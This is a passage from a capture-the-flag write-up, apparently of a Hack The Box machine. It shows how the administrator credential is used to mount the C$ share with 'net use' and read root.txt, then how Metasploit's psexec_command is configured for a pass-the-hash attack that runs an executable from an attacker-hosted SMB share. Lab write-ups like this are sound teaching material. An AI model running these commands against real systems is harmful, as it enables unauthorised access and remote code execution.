 ### Credentials : net use

Just get’s access to the filesystem, but that’s all that is needed to get the flags:
````
PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
The command completed successfully.

PS HKLM:\software\microsoft\windows nt\currentversion\winlogon> x:
PS X:\> cd users\administrator\desktop
PS X:\users\administrator\desktop> ls


    Directory: X:\users\administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/02/2018     12:51             32 root.txt
````

### Credentials : metasploit auxiliary/admin/smb/psexec_command

Now that we have the administrators credential getting system should be a snap.

We can perform a Pass the Hash Attack with metasploit’s various psexec modules. We need to add a route to the system so that the module can access the smb port 445 listening locally on the box. This can be achieved with metasploit’s route add command.

````
msf> use auxiliary/admin/smb/psexec_command
msf auxiliary(admin/smb/psexec_command) > set SMBUser Administrator
SMBUser => Administrator
msf auxiliary(admin/smb/psexec_command) > set SMBPass 3130438f31186fbaf962f407711faddb
SMBPass => 3130438f31186fbaf962f407711faddb
msf auxiliary(admin/smb/psexec_command) > set COMMAND \\\\10.10.15.171\\\kk\\\6969.exe
COMMAND => \\10.10.15.171\kk\6969.exe
msf auxiliary(admin/smb/psexec_command) > set RHOSTS 10.10.10.81
RHOSTS => 10.10.10.81
msf auxiliary(admin/smb/psexec_command) > options

Module options (auxiliary/admin/smb/psexec_command):

   Name                  Current Setting                   Required  Description
   ----                  ---------------                   --------  -----------
   COMMAND               \\10.10.15.171\kk\6969.exe        yes       The command you want to execute on the remote host
   RHOSTS                10.10.10.81                       yes       The target address range or CIDR identifier
   RPORT                 445                               yes       The Target port
   SERVICE_DESCRIPTION                                     no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                    no        The service display name
   SERVICE_NAME                                            no        The service name
   SMBDomain             .                                 no        The Windows domain to use for authentication
   SMBPass               3130438f31186fbaf962f407711faddb  no        The password for the specified username
   SMBSHARE              C$                                yes       The name of a writeable share on the server
   SMBUser               Administrator                     no        The username to authenticate as
   THREADS               1                                 yes       The number of concurrent threads
````